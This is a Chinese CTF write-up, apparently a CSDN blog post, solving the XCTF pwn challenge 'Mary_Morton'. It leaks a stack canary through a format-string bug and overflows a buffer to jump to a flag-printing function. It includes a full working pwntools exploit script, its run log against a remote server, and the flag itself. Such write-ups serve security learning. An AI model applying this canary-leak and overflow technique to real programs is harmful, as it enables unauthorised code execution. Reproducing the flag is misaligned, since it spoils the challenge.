


<!--yml
category: 未分类
date: 2022-04-26 14:38:32
-->

# Mary_Morton [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列17_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103676674](https://blog.csdn.net/fastergohome/article/details/103676674)

题目地址：[Mary_Morton](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4979&page=1)

已经是高手进阶区的第六题了，每个题目都有不少收获，持之以恒！

先看看题目内容

很好，这是一道非常简单的热身pwn，当然，我是不会相信的！哈哈

大家应该注意到了，难度系数第一次>1星了，步入2星的阶段，最高是10星！期待一下

惯例先来检查安全机制

```
root@mypwn:/ctf/work/python/mary_morton# checksec 4a6845da698e4ea2b922a0fef483bfda 
[*] '/ctf/work/python/mary_morton/4a6845da698e4ea2b922a0fef483bfda'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了Canary，上个题目直接用数组下标任意填写，来绕过来Canary，看看这题我们要遇见什么呢！

先打开IDA看看题目情况



 这个题目内容确实不复杂，说是热身题也没错，我简单做了一下变量和函数重命名，给大家贴出来c语言代码：

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int nChoice; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init_env();
  puts("Welcome to the battle ! ");
  puts("[Great Fairy] level pwned ");
  puts("Select your weapon ");
  while ( 1 )
  {
    while ( 1 )
    {
      menu_string();
      __isoc99_scanf("%d", &nChoice);
      if ( nChoice != 2 )
        break;
      Menu2();
    }
    if ( nChoice == 3 )
    {
      puts("Bye ");
      exit(0);
    }
    if ( nChoice == 1 )
      Menu1();
    else
      puts("Wrong!");
  }
}

unsigned __int64 Menu1()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}

unsigned __int64 Menu2()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}

int get_flag()
{
  return system("/bin/cat ./flag");
} 
```

一共四个函数：

1.  main是主函数
2.  Menu1函数存在read溢出漏洞
3.  Menu2函数存在格式化字符串漏洞
4.  get_flag函数提供给我们输出处flag

为什么要给我们提供两个漏洞，那就是因为存在Canary保护机制。

处理步骤如下：

1.  通过格式化字符串漏洞获取Canary值
2.  通过read溢出漏洞覆盖Canary值和EIP值，跳转到get_flag函数

首先确定一个格式化字符串漏洞的步长，构造payload如下：

```
payload = 'AAAA.1.%1$#x.2.%2$#x.3.%3$#x.4.%4$#x.5.%5$#x.6.%6$#x.7.%7$#x.8.%8$#x.'
```

编写一个函数，可以方便的执行payload ，脚本如下：

```
def fmt_str(payload, choice):
	p.sendlineafter('3\. Exit the battle \n', str(choice))
	p.sendline(payload)
	info = p.recv().splitlines()[0]
	print "info:"+info
	return info
```

执行之后结果如下：

```
root@mypwn:/ctf/work/python/mary_morton# python mary_morton.py
[+] Opening connection to 111.198.29.45 on port 45464: Done
info:AAAA.1.0x2b7ea2f0.2.0x7f.3.0x2c1b4260.4.0.5.0.6.0x41414141.7.0x78232431.8.0x78232432.
AAAA.1.0x2b7ea2f0.2.0x7f.3.0x2c1b4260.4.0.5.0.6.0x41414141.7.0x78232431.8.0x78232432.
[*] Closed connection to 111.198.29.45 port 45464
```

注意到6.0x41414141，那么步长就是6。 

下面我们就先构造一下这两个步骤需要的payload

1、获取canary

```
step = 6
num = step+(0x90-8)/8
payload = '%'+str(num)+'$p'
```

2、read溢出到eip

```
get_flag_addr = 0x4008DA
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(get_flag_addr)
```

根据上面到payload编写python脚本如下：

```
#coding:utf8

from pwn import *
context.log_level = 'debug'
process_name = '4a6845da698e4ea2b922a0fef483bfda'

# p = process(process_name)
p = remote('111.198.29.45', 45464)

def fmt_str(payload, choice):
	p.sendlineafter('3\. Exit the battle \n', str(choice))
	p.sendline(payload)
	info = p.recv().splitlines()[0]
	print "info:"+info
	return info

# payload = 'AAAA.1.%1$#x.2.%2$#x.3.%3$#x.4.%4$#x.5.%5$#x.6.%6$#x.7.%7$#x.8.%8$#x.'
# print fmt_str(payload, 2)

step = 6
num = step+(0x90-8)/8
payload = '%'+str(num)+'$p'
canary = int(fmt_str(payload, 2).split('x', 1)[1], 16)
log.info("canary => %#x", canary)

get_flag_addr = 0x4008DA
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(get_flag_addr)
fmt_str(payload, 1)

p.interactive()
```

```
root@mypwn:/ctf/work/python/mary_morton# python mary_morton.py
[+] Opening connection to 111.198.29.45 on port 45464: Done
[DEBUG] Received 0x18 bytes:
    'Welcome to the battle ! '
[DEBUG] Received 0x77 bytes:
    '\n'
    '[Great Fairy] level pwned \n'
    'Select your weapon \n'
    '1\. Stack Bufferoverflow Bug \n'
    '2\. Format String Bug \n'
    '3\. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x6 bytes:
    '%23$p\n'
[DEBUG] Received 0x13 bytes:
    '0x32e0978333c6af00\n'
info:0x32e0978333c6af00
[*] canary => 0x32e0978333c6af00
[DEBUG] Received 0x47 bytes:
    '1\. Stack Bufferoverflow Bug \n'
    '2\. Format String Bug \n'
    '3\. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 af c6 33  83 97 e0 32  │AAAA│AAAA│···3│···2│
    00000090  41 41 41 41  41 41 41 41  da 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[DEBUG] Received 0x8c bytes:
    '-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
info:-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] Switching to interactive mode
[DEBUG] Received 0x2d bytes:
    'cyberpeace{4ecf7db84b3599e2a5b396ce077e41e2}\n'
cyberpeace{4ecf7db84b3599e2a5b396ce077e41e2}
[*] Got EOF while reading in interactive
$ 
```

执行成功，直接拿到了flag。